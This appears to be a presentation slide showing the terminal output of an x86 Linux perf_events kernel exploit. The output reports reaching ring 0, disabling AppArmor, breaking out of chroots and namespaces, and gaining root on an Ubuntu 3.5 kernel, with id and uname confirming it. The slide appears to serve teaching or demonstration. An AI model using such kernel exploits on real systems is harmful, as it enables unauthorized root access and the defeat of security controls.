

# X86 PERF_EVENTS Exploit
 [!] Array base is 0xc1a57a60
 [!] Detected structure size of 12 bytes
 [!] Targeting 0xc1a69b10
 [+] Got ring0!
 [+] Detected 2.6/3.x style 8k stacks, with current at 0xf1f2cc20 and cred support
 [+] Disabled security of : AppArmor LSM
 [+] Found ->fs offset at 0x388
 [+] Broke out of any chroots or mnt namespaces
 [+] Got root!
root@ubuntu:/home/spender/enlightenment#id
uid=0(root) gid=0(root) groups=0(root)
root@ubuntu:/home/spender/enlightenment#uname -a
Linux ubuntu 3.5.0-23-generic #35~precise1-Ubuntu SMP Fri Jan 25 17:15:33 UTC 2013 i686 i686 i386 GNU/Linux